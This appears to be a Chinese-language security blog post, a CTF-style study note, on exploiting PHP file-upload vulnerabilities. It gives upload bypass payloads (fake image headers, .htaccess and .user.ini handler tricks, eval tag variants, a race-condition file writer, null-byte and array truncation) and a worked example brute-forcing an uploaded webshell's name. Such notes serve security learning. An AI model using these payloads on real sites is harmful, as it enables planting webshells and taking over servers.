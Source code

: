 ```yaml
---
layout: post
title: File-Upload
subtitle: File-Upload
date: 2025-06-17 16:22
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: true
---
```

## 1. 文件上传漏洞介绍

几乎每个网站中都会有文件上传的功能，譬如上传头像、视频、压缩包等。网站上传功能点未对客户端上传的文件进行严格的限制和过滤，导致恶意用户将一些恶意的文件或脚本上传到服务器并 url 访问执行，进而达到控制网站的目的，这就是文件上传漏洞。

### 1.1. 文件上传漏洞前提

1. 能成功上传木马或脚本
2. 知道上传后的路径
3. 上传的木马或脚本能被执行
4. 图片马需要配合文件包含漏洞或文件解析漏洞使用

## 2. 文件上传漏洞利用

### 2.1. 前端绕过

上传.php.jpg 文件，bp 抓包修改后缀

```http
filename="shell.php"
Content-Type: image/jpeg

GIF89a
<?php phpinfo();?>
```

![image.png](https://img.ghostliner.top/BVGH0r.png)

### 2.2. 其他文件格式

一般 php可执行文件格式：`php` `php2` `php3` `php4` `php5` `phtml`

原理：apache `httpd.config` 文件配置

```
AddType application/x-httpd-php .php .phtml .php3
```

### 2.3. 配置文件利用

**条件：可以上传配置文件**

可利用 apache 配置文件 `.htaccess`

```
<FilesMatch "webshell">
Sethandler application/x-httpd-php
</FilesMatch>
# or
AddHandler application/x-httpd-php .xxx
```

**条件：上传目录存在 php 文件，且必须运行在 fastcgi 模式**

php 配置文件 `.user.ini`

```ini
auto_prepend_file = 123.txt
auto_append_file = 123.txt
```

当访问上传目录中的 php 文件时，自动加载 `123.txt`

### 2.4. 二次渲染

上传图片经二次渲染时，可通过010比较前后两个图片未修改部分，将代码插入其中

### 2.5. 标签绕过

```php
<script language="php">eval();</script>
```

```php
<?=eval();?>
```

### 2.6. 条件竞争

上传 `shell.php` 内容：

```php
<?php fputs(fopen('php.php','w'),'<?php phpinfo();?>');?>
```

bp 循环上传、访问 `shell.php`

### 2.7. 截断绕过

%00 截断（要求 php 版本小于 5.3.4，php 的 magic_quotes_gpc 为 OFF 状态）

#### 2.7.1. get 截断

![image.png](https://img.ghostliner.top/yKCXlN.png)

#### 2.7.2. post 截断

将 `%00` 进行 url 转码，请求体内容不会自动转码

![image.png](https://img.ghostliner.top/Uxyrhj.png)

#### 2.7.3. 数组截断

```php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "禁止上传该类型文件!";
    }else{
        //检查文件名
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "禁止上传该后缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传成功！";
                $is_upload = true;
            } else {
                $msg = "文件上传失败！";
            }
        }
    }
}else{
    $msg = "请选择要上传的文件！";
}
```

分析代码：

`$file[count($file) - 1]`，正常情况是获取$file 数组最后一个下标数据，`count()` 函数在统计数组个数时只统计所有已定义元素，当 `save_name[1]` 未定义时，返回值为 2.

构造 payload

![image.png](https://img.ghostliner.top/8KeRaf.png)

### 2.8. 其他绕过方式

大写 `.PHP`、双写 `.pphphp` 、末尾加点，末尾加空格 `.php.` `.php. .` 、`.php::$data`

## 3. 例题

代码提示：

![image.png](https://img.ghostliner.top/VxNkxg.png)

```php
$files = @$_FILES["files"]
# 获取文件全名
$file_name = $files["name"]
# 获取文件后缀
$file_ext = substr($file_name,strrpos($file_name,".")+1)
# 生成新文件名
# md5(文件名随机数).后缀
md5($file_name.rand(1,99999)).".".
```

上传一句话木马 `shell.php`，使用 bp 爆破

设置 payload

![image.png](https://img.ghostliner.top/LTYLMa.png)

设置随机数 1-99999

![image.png](https://img.ghostliner.top/ie02HT.png)

设置前缀：shell.php，
设置进行 MD5 加密

![image.png](https://img.ghostliner.top/C1HCkb.png)

开始攻击，过滤状态码

![image.png](https://img.ghostliner.top/VALax3.png)

得到结果：`a4bb0a293d789ae48fecb913b1348e2f.php`

![image.png](https://img.ghostliner.top/Eiltrx.png)
